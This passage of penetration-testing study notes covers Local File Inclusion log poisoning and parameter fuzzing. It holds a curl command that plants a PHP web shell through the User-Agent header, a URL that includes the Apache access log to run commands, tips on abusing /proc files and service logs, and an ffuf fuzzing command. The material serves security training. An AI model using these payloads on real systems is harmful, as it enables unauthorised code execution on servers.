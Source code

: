 Or if it doesn't works:

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system(\$_GET['cmd']); ?>"
```

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (?cmd=id):

```url
?language=/var/log/apache2/access.log&cmd=id
```

**Tip**: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.


Finally, there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:
- /var/log/sshd.log
- /var/log/mail
- /var/log/vsftpd.log


<br>
<br>
<br>
<br>

# Automated scanning

### Fuzzing parameters

The HTML forms users can use on the web application front-end tend to be properly tested and well secured against different web attacks. However, in many cases, the page may have other exposed parameters that are not linked to any HTML forms, and hence normal users would never access or unintentionally cause harm through. This is why it may be important to fuzz for exposed parameters, as they tend not to be as secure as public ones.

For example, we can fuzz the page for common GET parameters, as follows:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

### LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.
